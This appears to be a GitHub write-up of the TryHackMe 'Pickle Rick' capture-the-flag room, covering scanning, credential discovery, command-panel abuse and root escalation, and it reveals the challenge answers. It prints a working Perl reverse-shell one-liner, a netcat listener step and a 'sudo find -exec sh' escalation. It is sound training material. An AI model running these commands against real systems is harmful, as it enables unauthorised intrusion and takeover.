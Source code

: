 # CTF-TryHackMe-Pickle_Rick


This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

What is the first ingredient Rick needs?

1. Start by running a nmap scan against the machine
    nmap -A -sV -O -T4 10.10.102.243 -oN nmap_initial
    The resulst show that port 22, ssh and port 80, http are open
    
2. Let's now vist the website
    The first thing to do is view the source code: 
    ![Screenshot 2022-01-06 18^%16^%21](https://user-images.githubusercontent.com/86057471/148465943-2311f56e-3885-489f-b585-26973a00ed2f.png)
    
    We can see a note giving a username: R1ckRul3s
    
3. Time to run gobuster: gobuster dir -u IP -w /usr/share/wordlists/dirb/common.txt -t 16 -oN gobuster_intial
    ![Screenshot 2022-01-06 18^%16^%21](https://user-images.githubusercontent.com/86057471/148466489-7460d5c9-1c44-4fc2-8d91-2fcbb042b672.png)
    
     We find a robots.txt file\
     Go to <IP>/robots.txt\
     We get a text: Wubbalubbadubdub: Possibly a password
    
4. Let's try running gobuster again with -x php to see if we can find any other directories:
   ![Screenshot 2022-01-06 18^%16^%21](https://user-images.githubusercontent.com/86057471/148466986-eb30744e-41fe-4929-91b7-b67634d6f37d.png)
    
   We found login.php let's check it out:
    ![Screenshot 2022-01-07 02^%35^%15](https://user-images.githubusercontent.com/86057471/148508681-f050d6c3-3507-491a-84a5-75979214962e.png)
    
   It's asking us for a username and password we can use the one we found: R1ckRul3s, Wubbalubbadubdub
    
5. Now we are presented with a command panel, run ls to see if we find anything interesting:
    ![Screenshot 2022-01-07 02^%39^%15](https://user-images.githubusercontent.com/86057471/148509156-6115cf70-2fb3-4632-9e04-e667de0d0b67.png)
    
    Two files to look at: Sup3rS3cretPickl3Ingred.txt and clue.txt\
    If we try using cat to look at the file we get an error:
    ![Screenshot 2022-01-07 02^%42^%09](https://user-images.githubusercontent.com/86057471/148509451-a11fa6c7-a19a-42bc-acfd-fc68f4a29067.png)
    
    We are not allowed to use cat, using vim and nano doesn't work either, so we can try visiting the webpage: IP/Sup3rS3cretPickl3Ingred.txt\
    And we got our first ingredient: mr. meeseek hair
 

Whats the second ingredient Rick needs?

1. Let's check out the clue.txt file: IP/clue.txt\
    We get a message: Look around the file system for the other ingredient.
    
2. We need to try to get a reverse shell to check out the file system\
    We have a command line so we can try to run a reverse shell script\
    I went to swisskyrepo/PayloadsAllTheThings to find a reverse shell script to use. I used the perl script:\
    perl -e 'use Socket;$i="IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'\
    Before we run the script in the command panel we need to setup a ncat listener: nc -localhost -port\
    Now run the perl script and we get a shell

3. Now that we have a shell let's see if we can find the second ingredient\
    If we cd to the home folder we find a two folders in the rick folder we find the second ingredient: 1 jerry tear
    
Whats the final ingredient Rick needs?

1. We can try checking the root folder for the last ingredient: cd root
    ![Screenshot 2022-01-07 05^%54^%03](https://user-images.githubusercontent.com/86057471/148533787-470fe95c-c962-41ec-9bef-75b18af633da.png)
    
    We can't cd to root as www-data user\
    We can check what sudo privileges we have: sudo -l
    ![Screenshot 2022-01-07 05^%55^%57](https://user-images.githubusercontent.com/86057471/148534035-c74b090f-94e9-43bc-8f6e-22e1c988d7b3.png)
    
    As we see we have all sudo privileges\
    So we can use any sudo privilage escalation for exampe using find: sudo find /home -exec sh -i \;\
    Now we run whoami we can see we are root\
    So let's now check the root folder and we find the third ingredient in 3rd.txt: fleeb juice
    
    

    
    

    
    
